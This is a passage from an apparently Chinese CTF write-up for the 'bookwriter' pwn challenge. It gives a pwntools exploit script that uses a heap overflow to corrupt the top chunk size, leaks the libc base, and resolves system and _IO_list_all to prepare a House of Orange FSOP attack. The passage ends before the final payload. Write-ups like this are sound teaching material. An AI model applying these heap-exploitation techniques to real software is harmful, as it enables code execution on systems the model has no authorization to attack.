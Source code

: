 ```
    309     JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    310     JUMP_FIELD(_IO_imbue_t, __imbue);
    311 #if 0
    312     get_column;
    313     set_column;
    314 #endif
    315 };
```
调用的是overflow那里，把它改成system就行了
exp：
```python
    from pwn import *
    
    io = process('./bookwriter')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    elf = ELF('bookwriter')
    context.log_level = 'debug'
    def add(size,content):
    	io.recvuntil('choice :')
    	io.sendline('1')
    	io.recvuntil('page :')
    	io.sendline(str(size))
    	io.recvuntil('Content :')
    	io.sendline(content)
    def view(idx):
    	io.recvuntil('choice :')
    	io.sendline('2')
    	io.recvuntil('page :')
    	io.sendline(str(idx))
    def edit(idx,content):
    	io.recvuntil('choice :')
    	io.sendline('3')
    	io.recvuntil('page :')
    	io.sendline(str(idx))
    	io.recvuntil('Content:')
    	io.sendline(content)
    def info():
    	io.recvuntil('choice :')
    	io.sendline('4')
    
    name = 'secunda'
    io.recvuntil('Author :')
    Author = 'A'*0x40
    io.send(Author)
    # Heap Overflow to Modify TopChunk Size
    add(0x28,'0'*0x28)          #id=0
    edit(0,'1'*0x28)
    edit(0,'\x00'*0x28+p16(0xfd1)+"\x00")
     
    # Trigger sysmalloc ==> _int_free TopChunk
    add(0x1000,'1'+'\n')        #id=1
     
    # leak libc_base
    add(0x1,'x')                #id=2
    view(2)
    io.recvuntil('Content :\n')
    leak = u64(io.recvuntil('\n',drop=True).ljust(0x8,'\x00'))
    print hex(leak)
    libc_base = leak - libc.symbols['__malloc_hook'] - 1560 - 0x20
    log.info('libbase:'+hex(libc_base))
    system_addr = libc_base+libc.symbols['system']
    log.info('system_addr:'+hex(system_addr))
    IO_list_all = libc_base+libc.symbols['_IO_list_all']
```